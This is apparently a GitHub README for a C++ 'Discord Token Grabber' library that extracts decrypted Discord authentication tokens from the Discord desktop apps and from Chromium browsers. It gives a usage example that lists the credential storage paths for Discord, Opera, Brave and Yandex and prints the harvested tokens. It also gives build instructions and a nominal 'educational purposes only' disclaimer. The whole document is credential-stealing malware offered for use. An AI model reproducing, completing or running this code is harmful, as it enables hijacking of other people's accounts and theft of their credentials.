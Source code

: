 # 🟩 Discord Token Grabber 🟩 <a href="https://github.com/yurtrimu/discord-token-grabber/actions/workflows/main.yml"><img src="https://github.com/yurtrimu/discord-token-grabber/actions/workflows/main.yml/badge.svg?branch=main" alt="Working"></a>

## **A lightweight library-kind of project that can grab discord's decrypted tokens from discord applications and chromium browsers.**

# Questions?
### - **I gladly answer your questions on the [discord server](https://discord.gg/QBhFd2aK4r).**

## Usage

```cpp
#include "TokenGrabber.hpp"

int main()
{
    // Check operating system
    if (!utils::console::is_windows()) {
        printf("The operating system has to be Windows NT\n");
        exit(EXIT_FAILURE);
    }

    // Here are the environmental variables
    std::string localappdata, appdata;
    utils::string::safe_getenv("LOCALAPPDATA", localappdata);
    utils::string::safe_getenv("APPDATA", appdata);

    // Define the paths from discord and from any chromium browsers 
    // First string is local state file's path and the second is leveldb folder's path
    std::vector<std::pair<std::string, std::string>> path_list;
    path_list.push_back(std::make_pair<std::string, std::string>(appdata + "\\discord\\Local State", appdata + "\\Discord\\Local Storage\\leveldb"));
    path_list.push_back(std::make_pair<std::string, std::string>(appdata + "\\discordcanary\\Local State", appdata + "\\discordcanary\\Local Storage\\leveldb"));
    path_list.push_back(std::make_pair<std::string, std::string>(appdata + "\\discordptb\\Local State", appdata + "\\discordptb\\Local Storage\\leveldb"));
    path_list.push_back(std::make_pair<std::string, std::string>(appdata + "\\Opera Software\\Opera Stable\\Local State", appdata + "\\Opera Software\\Opera Stable\\Local Storage\\leveldb"));
    path_list.push_back(std::make_pair<std::string, std::string>(appdata + "\\Opera Software\\Opera GX Stable\\Local State", appdata + "\\Opera Software\\Opera GX Stable\\Local Storage\\leveldb"));
    path_list.push_back(std::make_pair<std::string, std::string>(localappdata + "\\BraveSoftware\\Brave-Browser\\User Data\\Local State", localappdata + "\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb"));
    path_list.push_back(std::make_pair<std::string, std::string>(localappdata + "\\Yandex\\YandexBrowser\\User Data\\Local State", localappdata + "\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb"));
    

    // Define the Grabber
    TokenGrabber Grabber(path_list);

    // Initialize the Grabber
    Grabber.initialize();

    // Obtain the tokens from the specified paths
    std::vector<std::string> token_list = Grabber.collect_tokens();

    // Print the tokens
    for (const std::string &token : token_list) {

        if (token.empty()) { continue; }

        std::cout << "--------------------\n\n";
        std::cout << "Token: " << token << "\n";
        std::cout << "\n--------------------\n\n";
    }
}
```

## Example.png

![alt text](https://github.com/yurtrimu/discord-token-grabber/blob/main/example.png?raw=true)

## Operating System
- **Below Windows 7 - 🟦 Untested**
- **Windows 7 - 🟦 Untested**
- **Windows 10 - 🟩 Working**
- **Windows 11 - 🟦 Untested**
- **Mac OS - 🟥 Not Working**
- **Linux - 🟥 Not Working**

## Requirements

**You need to have the OpenSSL library installed and linked to your compiler.**

- You could download the OpenSSL library from [OpenSSL website](https://www.openssl.org/source/).

## Linker
- **libssl.lib**
- **libcrypto.lib**
- **crypt32.lib**


## Compiling

- **Build - 🟦 Untested**
- **Release - 🟩 Working**
- **C++17 or below - 🟥 Not Working**
- **C++20 - 🟩 Working**

## Contributing

**Pull requests are welcome.**

## Legal Disclaimer
🟥 **The content provided is for educational and informational purposes only.** 🟥
